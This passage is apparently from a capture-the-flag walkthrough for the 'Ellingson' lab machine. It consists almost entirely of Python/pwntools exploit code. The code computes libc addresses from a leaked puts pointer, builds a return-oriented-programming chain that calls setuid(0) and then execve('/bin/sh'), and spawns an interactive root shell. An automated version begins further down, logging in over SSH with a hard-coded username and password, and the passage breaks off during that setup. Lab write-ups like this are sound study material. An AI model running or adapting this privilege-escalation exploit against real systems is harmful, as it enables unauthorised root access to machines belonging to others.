 ```
print("Leaked puts@GLIBCL: "+ str(leaked_puts))
leaked_puts = struct.unpack('<Q', leaked_puts)[0]


# stage 2 
# adresse of puts of GLIBC from Libc:  readelf -s /lib/x86_64-linux-gnu/libc-2.27.so | grep puts  , and the same with system
libc_put = 0x809c0
libc_setuid=0xe5970
libc_execve=0xe4e30
# for /bin/sh : strings -a -t x /lib/x86_64-linux-gnu/libc-2.27.so | grep /bin/sh
libc_sh =0x1b3e9a

# rp-lin-x64 -f libc_fromremote.so --unique -r 1 | grep  "pop rdx"
libc_pop_rdx = 0x1b96
libc_pop_rsi = 0x23e6a

offset = leaked_puts - libc_put
sh = offset+libc_sh
setuid = offset +libc_setuid
execve = offset + libc_execve
pop_rdx= offset+libc_pop_rdx
pop_rsi= offset+libc_pop_rsi

# setuid(0)
# execve("/bin/sh",Null,Null)
second_rop= pop_rdi    # place argument of setuid() in the register rdi 
second_rop+=struct.pack('<Q', 0x0000000000000000)
second_rop+=struct.pack('<Q', setuid) # setuid fct 
second_rop+= pop_rdi    # place first arg  of execve() in the register rdi 
second_rop+=struct.pack('<Q', sh) # address of "/bin/sh"
second_rop+=struct.pack('<Q',pop_rdx)  # second arg
second_rop+=struct.pack('<Q', 0x0000000000000000)
second_rop+=struct.pack('<Q',pop_rsi)  # third arg
second_rop+=struct.pack('<Q', 0x0000000000000000) 
second_rop+=struct.pack('<Q', execve)
# final payload 
payload = junk + second_rop  
p.sendline(payload)
p.recvuntil("denied.")
p.interactive()
```

### Exploit [code](https://github.com/roughiz/Ellingson-walktrough/blob/master/exploit_auto.py) (auto)
We can also perform this attack using ROP and ELF Classes from pwntools, which search adress and also have some functions like "call" or "system" 

```
from pwn import *
import struct
import binascii
context(os="linux", arch="amd64")
s = ssh(host='Ellingson.htb',user='margo',password='iamgod$08')
p= s.process('/usr/bin/garbage')
#context.log_level = 'DEBUG'

garbage= ELF('garbage')
rop = ROP(garbage)
libc = ELF('libc_fromremote.so') #the libc used in the box(ldd /usr/bin/garbage)
junk = "A"*136

```